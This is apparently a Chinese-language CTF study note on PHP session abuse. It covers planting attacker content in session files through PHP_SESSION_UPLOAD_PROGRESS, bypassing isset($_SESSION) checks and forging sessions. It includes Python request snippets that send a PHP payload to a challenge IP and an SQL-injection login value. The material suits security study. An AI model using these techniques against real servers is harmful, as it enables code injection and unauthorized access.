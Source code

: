 - # 利用session向文件中写入文件
	- php session 的 ID 是可以在 cookie 中自定义的
	- session 位置一般是`/tmp/`或者`/var/lib/php/sessions`
	- session 文件名为 sess_xxxxx, xxxxx 就是自定义的 session ID
	- 而且，在上传文件时，文件的上传状态会保存在 session 文件中。
	- 而文件的上传状态也是可以控制的
	- 所以这样就可以上传恶意文件
		- ```python
		  requests.post(
		  "http://124.71.162.7:10882/",
		  data={
		      "PHP_SESSION_UPLOAD_PROGRESS": "<?php echo 123123;?>"
		  },
		  files={"file":('a.txt', io.BytesIO(b'a' * 1024 * 50))},
		  cookies={"PHPSESSID": "test"}
		  )
		  ```
	- 文件名在上面
- # 绕过isset($_SESSION)
	- 利用`isset($_SESSION)`来阻止访问template文件是不安全的。
	- 如果`php.ini`中开启了`session.upload_progress.enabled`，那么用户可以通过`PHP_SESSION_UPLOAD_PROGRESS`让PHP自动开启session
		- ```python
		  r = base_post(f"{url}/templates/login.php", params = {
		      "p": "login",
		      "username": 'bbb"||1#',
		      "password": "b"
		  }, data = {
		      "PHP_SESSION_UPLOAD_PROGRESS": "123456789"
		  }, files = {
		      "file": ("a", "a")
		  })
		  print(r.text)
		  ```
	- 示例：[[CTF/WP/BUUCTF/PwnThyBytes 2019 Baby_SQL]]
- # 伪造session
	- [[CTF/WP/BUUCTF/HFCTF2020 BabyUpload]]